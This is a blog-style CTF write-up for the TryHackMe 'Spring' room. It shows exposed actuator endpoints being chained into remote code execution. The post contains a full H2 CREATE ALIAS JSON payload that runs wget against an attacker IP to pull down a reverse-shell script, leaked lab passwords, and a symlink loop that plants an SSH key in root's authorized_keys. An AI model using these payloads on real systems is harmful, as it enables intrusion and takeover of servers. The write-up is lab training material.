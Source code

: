 ```yaml
---
layout: post
title: CTF Log - Spring {THM}
description: A log of how I did the TryHackMe room Spring by onurshin
summary: A log of the THM room "Spring"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# Spring
## Exposed .git Directory, Actuators /env & /restart RCE
The open ports are 22, 80, 443. The ssl cert information reveals the domain name `spring.thm` and the name `John Smith`. 

Navigating to the site on port 80 redirects to 443 with HTTPS. The landing page is practically blank.

Taking a queue from the name, I do an `ffuf` scan with SecLists's `spring-boot.txt` file. This just informs me that everything under the `actuator/` web directory returns a `403`. 

A recursive directory scan with the `dirsearch` wordlist reveals a `/sources/new/.git`. I use `dumper` from GitTools to download the folder then `extractor` to build out the file structure.

```java
    @Configuration
    @EnableWebSecurity
    static class SecurityConfig extends WebSecurityConfigurerAdapter {

        @Override
        protected void configure(HttpSecurity http) throws Exception {
            http
                    .authorizeRequests()
                    .antMatchers("/actuator**/**").hasIpAddress("172.16.0.0/24")
                    .and().csrf().disable();
        }

    }
}
```

This code snippet from `Application.java` shows why the `actuator/` directory was returning a `403` response. The `hasIpAddress("172.16.0.0/24")` function is forbidding addresses outside of the `172.16.0.0/24` subnet from visiting that directory. 

The `application.properties` file has a lot of useful information which I end up using further in the CTF. At this point, the relevant line is `server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04`. A quick look at the [tomcat documentation](https://tomcat.apache.org/tomcat-8.5-doc/api/org/apache/catalina/valves/RemoteIpValve.html#:~:text=Name%20of%20the%20Http%20Header%20read%20by%20this%20valve%20that%20holds%20the%20list%20of%20traversed%20IP%20addresses%20starting%20from%20the%20requesting%20client) shows that this replaces the usual `x-forwarded-for`. Knowing this, I'm able to send a request using the `x-9ad42dea0356cb04` header to tell the server that my IP is one from the correct subnet. 

![GET request with the aforementioned header parameter with 172.16.0.0 value, 200 response by server](/assets/media/spring/x-forwarded-for.png)

This time the server lets me through and responds with a JSON of the available endpoints:

```json
{
    "_links":
    {
        "self":
        {
            "href": "https://spring.thm/actuator",
            "templated": false
        },
        "beans":
        {
            "href": "https://spring.thm/actuator/beans",
            "templated": false
        },
        "health":
        {
            "href": "https://spring.thm/actuator/health",
            "templated": false
        },
        "health-path":
        {
            "href": "https://spring.thm/actuator/health/{*path}",
            "templated": true
        },
        "shutdown":
        {
            "href": "https://spring.thm/actuator/shutdown",
            "templated": false
        },
        "env-toMatch":
        {
            "href": "https://spring.thm/actuator/env/{toMatch}",
            "templated": true
        },
        "env":
        {
            "href": "https://spring.thm/actuator/env",
            "templated": false
        },
        "mappings":
        {
            "href": "https://spring.thm/actuator/mappings",
            "templated": false
        },
        "restart":
        {
            "href": "https://spring.thm/actuator/restart",
            "templated": false
        }}}
```

There's a technique for getting code execution through exposed actuator endpoints that I learned from [this site](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database). 

> <b>tldr;</b>
> Can use the `/env` endpoint to set an environment variable which will have a SQL query executed on restart. I use the `CREATE ALIAS` SQL command to define a Java function, which I then use to execute arbitrary commands on the OS. 

It takes two payloads and restarts for me to get a reverse shell. First to download the shell script onto the machine, then to execute it.

```json
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('wget 10.13.1.225:9090/r.sh -O /tmp/r.sh');"}
```

This is the first payload, to download the script. I then use the `/restart` endpoint to restart the application and have the command executed. The second payload just calls `/bin/bash /tmp/r.sh`. I make sure to add `Content-Type: application/json` to each POST request as well. 

I get a shell as `nobody`. 

## Password Guessing
![Environment variables, password is PrettyS3cureKeystorePassword123.](/assets/media/spring/nobody_env_vars.png)

This screenshot shows the environment variables for the user `nobody`. 

Of note is the `SUDO_COMMAND` variable that's revealing a password used in the launch of the actuator application. Interestingly, a similarly formatted password was present in the `.git` directory that I cloned earlier. 

```java
spring.security.user.name=johnsmith
spring.security.user.password=PrettyS3cureSpringPassword123.
debug=false
spring.cloud.config.uri=
```

This is a snippet of code from the `application.properties` file from the leaked `.git` directory. The same password format is used. I would have brute forced `su` using [sucrack](https://github.com/hemp3l/sucrack) but after around five guesses I hit the correct password and get a shell as `johnsmith`. 

## Log Poisoning & Symbolic Link
This was a really neat privesc, I enjoyed it a lot. 

In `johnsmith`'s home directory there's a `/tomcatlogs` directory. It appears to contain logs whose names are an epoch timestamp.

![systemctl status spring output](/assets/media/spring/systemctl.png)

There are two things to notice about the above screenshot. The first is that one of the processes spawned from the spring service is a `tee` of the logs to a logfile in the `/tomcatlogs` directory. The second is that I was able to use `systemctl shutdown spring` and the service automatically restarted, prompting a `tee` command to a new log file. 

```java
    @RestController
    //https://spring.io/guides/gs/rest-service/
    static class HelloWorldController {
        @RequestMapping("/")
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {
            System.out.println(name);
            return String.format("Hello, %s!", name);
        }
    }
```

The code above is from the `Application.java` file. It defines a class and function that take the `name` GET parameter and display it on the page, at the landing page location, `/`. 

![GET request with "oriel" as name parameter value](/assets/media/spring/name_test.png)

This screenshot shows a test of my hypothesis and confirms that the `name` parameter's value is reflected in the page. 

```bash
johnsmith@spring:~$ cat test.txt 
2021-10-17 20:09:15.385  INFO 8014 --- [           main] trationDelegate$BeanPostProcessorChecker : Bean 'org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration' of type [org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration$$EnhancerBySpringCGLIB$$7af57240] is not eligible for getting processed by all BeanPostProcessors (for example: not eligible for auto-proxying)

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.3.1.RELEASE)

2021-10-17 20:09:16.483  INFO 8014 --- [           main] c.c.c.ConfigServicePropertySourceLocator : Fetching config from server at : http://localhost:8888

<!--Snipped!-->

World
oriel
johnsmith@spring:~$ 
```

Next, is a look through a log file which confirms that the value `oriel` is output into the log file. The filename `test.txt` will now be discussed. 

Since the `tee` command doesn't delete a file if it is already present, I'm able to create many log files whose names could contain the exact epoch time at which the service's `tee` command is executed. 

These files are then symlinked to `/root/.ssh/authorized_keys`. The command to perform this is `for x in {1634500389..1634502000};do touch $x.log && ln -s -f ~/test.txt $x.log;done`. I based the epoch time value on the current log file's and then added a thousand or two. 

![GET request with public SSH key as name parameter value](/assets/media/spring/post_ssh_key.png)

Since sshd ignores incorrect lines in the `authorized_keys` file, I'm able to send my URL encoded RSA public key through the `name` parameter. My public key will then be logged to one of my thousand symlinked files, which will put it in `root`'s `authorized_keys` file. 

I am then able to `ssh` in as `root`. 